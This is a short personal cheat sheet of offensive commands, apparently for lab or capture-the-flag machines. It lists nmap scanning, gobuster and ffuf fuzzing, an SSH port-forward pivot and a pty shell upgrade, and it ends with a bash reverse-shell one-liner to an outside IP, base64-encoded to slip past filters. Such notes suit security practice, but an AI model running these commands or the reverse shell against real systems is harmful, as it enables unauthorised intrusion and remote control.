 # prep
Useful commands
sudo nmap -sC -sV -vv -p- 10.10.11.221

dirs
gobuster dir -w  directory-list-2.3-medium.txt -u domain.name

subdomains:
ffuf -c -ac -w ~/Downloads/subdomains-10000.txt -H 'Host: FUZZ.domain.name' -u http://domainname 

ssh pivot
ssh -L 1234:localhost:8080 rosa@10.10.11.38 
connect using localhost:1234

python3 -c 'import pty; pty.spawn("/bin/sh")'

base64
echo -n 'bash -i >& /dev/tcp/10.10.16.12/4242 0>&1' | base64 
